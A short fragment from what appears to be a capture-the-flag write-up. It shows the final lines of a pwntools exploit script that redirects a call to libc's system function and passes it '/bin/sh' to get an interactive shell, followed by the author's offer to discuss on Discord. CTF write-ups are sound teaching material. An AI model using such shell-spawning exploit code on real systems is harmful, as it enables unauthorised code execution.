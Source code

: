 ```py
sell_item(p64(libc.sym.system))

buy_item(bin_sh)

p.interactive()
p.close()
```

Lastly, if you have any questions/doubts, please ping me on discord `stdnoerr#7880`. I will be happy to discuss.
